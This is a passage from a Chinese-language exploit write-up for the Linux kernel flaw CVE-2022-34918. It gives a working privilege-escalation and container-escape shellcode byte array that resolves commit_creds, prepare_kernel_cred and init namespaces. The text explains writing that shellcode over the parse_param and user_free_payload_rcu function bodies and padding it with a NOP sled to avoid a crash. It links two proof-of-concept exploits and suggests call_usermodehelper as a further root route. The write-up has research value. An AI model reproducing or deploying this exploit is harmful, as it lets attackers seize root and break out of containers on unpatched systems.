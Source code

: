```c
  0x60, 0x31, 0xd2, 0x31, 0xdb, 0x4c, 0x89, 0xcf, 0x48, 0x39, 0xcf, 0x73,
  0x1f, 0x48, 0x8b, 0x2f, 0x4c, 0x39, 0xfd, 0x41, 0x0f, 0x44, 0xd4, 0x4c,
  0x39, 0xd5, 0x41, 0x0f, 0x44, 0xdc, 0x48, 0x83, 0xc7, 0x08, 0x85, 0xdb,
  0x74, 0xe2, 0x85, 0xd2, 0x74, 0xde, 0xeb, 0x06, 0x49, 0x83, 0xc3, 0x08,
  0xeb, 0xb9, 0x4d, 0x85, 0xc9, 0x74, 0x0a, 0x4c, 0x89, 0xc9, 0x48, 0x29,
  0xc1, 0x4d, 0x89, 0x0c, 0x0e, 0x31, 0xc0, 0x5b, 0x41, 0x5c, 0x41, 0x5e,
  0x41, 0x5f, 0x5d, 0xc3, 0x53, 0x49, 0x89, 0xd0, 0x49, 0xf7, 0xd8, 0x41,
  0xb9, 0x00, 0x00, 0x00, 0x02, 0x31, 0xc0, 0x49, 0x89, 0xfb, 0x4e, 0x8d,
  0x14, 0x07, 0x4d, 0x01, 0xca, 0x4d, 0x39, 0xd3, 0x77, 0x50, 0x31, 0xc9,
  0x48, 0x39, 0xca, 0x74, 0x13, 0x41, 0x8a, 0x1c, 0x0b, 0x3a, 0x1c, 0x0e,
  0x75, 0x05, 0x48, 0xff, 0xc1, 0xeb, 0xed, 0x49, 0xff, 0xc3, 0xeb, 0xe1,
  0x4d, 0x85, 0xdb, 0x74, 0x31, 0x49, 0x01, 0xf9, 0x48, 0x83, 0xe7, 0xfc,
  0x4c, 0x39, 0xcf, 0x73, 0x13, 0x8b, 0x0f, 0x4c, 0x89, 0xdb, 0x48, 0x29,
  0xcb, 0x48, 0x39, 0xfb, 0x74, 0x11, 0x48, 0x83, 0xc7, 0x04, 0xeb, 0xe8,
  0x49, 0x01, 0xd3, 0x4d, 0x29, 0xd9, 0x4c, 0x89, 0xdf, 0xeb, 0xab, 0x48,
  0x83, 0xc7, 0xfc, 0x48, 0x89, 0xf8, 0x5b, 0xc3, 0x63, 0x6f, 0x6d, 0x6d,
  0x69, 0x74, 0x5f, 0x63, 0x72, 0x65, 0x64, 0x73, 0x00, 0x70, 0x72, 0x65,
  0x70, 0x61, 0x72, 0x65, 0x5f, 0x6b, 0x65, 0x72, 0x6e, 0x65, 0x6c, 0x5f,
  0x63, 0x72, 0x65, 0x64, 0x00, 0x66, 0x69, 0x6e, 0x64, 0x5f, 0x76, 0x70,
  0x69, 0x64, 0x00, 0x70, 0x69, 0x64, 0x5f, 0x74, 0x61, 0x73, 0x6b, 0x00,
  0x69, 0x6e, 0x69, 0x74, 0x5f, 0x70, 0x69, 0x64, 0x5f, 0x6e, 0x73, 0x00,
  0x69, 0x6e, 0x69, 0x74, 0x5f, 0x75, 0x74, 0x73, 0x5f, 0x6e, 0x73, 0x00
};
```



我先是把上面这段shellcode覆盖 fs_context 的 parse_param 函数，即可不依赖cred泄露完成提权和逃逸：

![](image-20220813152514021.png)

poc链接：https://github.com/veritas501/CVE-2022-34918/tree/master/poc_fs_context_common



但当我将上面这段shellcode用于覆盖 user_key_payload 的 user_free_payload_rcu 函数时内核发生了崩溃。通过调试发现，是因为shellcode的宿主 user_free_payload_rcu 函数体积太小，不够存放完整的shellcode，因此shellcode覆盖到了后面的函数，而后面的函数会先于 user_free_payload_rcu 调用，因此执行到了非法指令。解决方法是在shellcode前面放入一定长度nop雪橇（nop sled），从而能够在执行到后面的函数时直接“滑”到我们的shellcode上。

![](image-20220813152121943.png)

poc链接：https://github.com/veritas501/CVE-2022-34918/tree/master/poc_keyring_common



PS. 其实提权的shellcode不止这一种，例如也可以通过调用导出函数`call_usermodehelper`来提权，由于这种方法比较简单，这里留给读者来尝试与思考。

```c
/**
 * call_usermodehelper() - prepare and start a usermode application
 * @path: path to usermode executable
 * @argv: arg vector for process
 * @envp: environment for process
 * @wait: wait for the application to finish and return status.
 *        when UMH_NO_WAIT don't wait at all, but you get no useful error back
 *        when the program couldn't be exec'ed. This makes it safe to call
 *        from interrupt context.
 *
 * This function is the equivalent to use call_usermodehelper_setup() and
 * call_usermodehelper_exec().
 */
int call_usermodehelper(const char *path, char **argv, char **envp, int wait)
{
	struct subprocess_info *info;
	gfp_t gfp_mask = (wait == UMH_NO_WAIT) ? GFP_ATOMIC : GFP_KERNEL;

	info = call_usermodehelper_setup(path, argv, envp, gfp_mask,
					 NULL, NULL, NULL);
```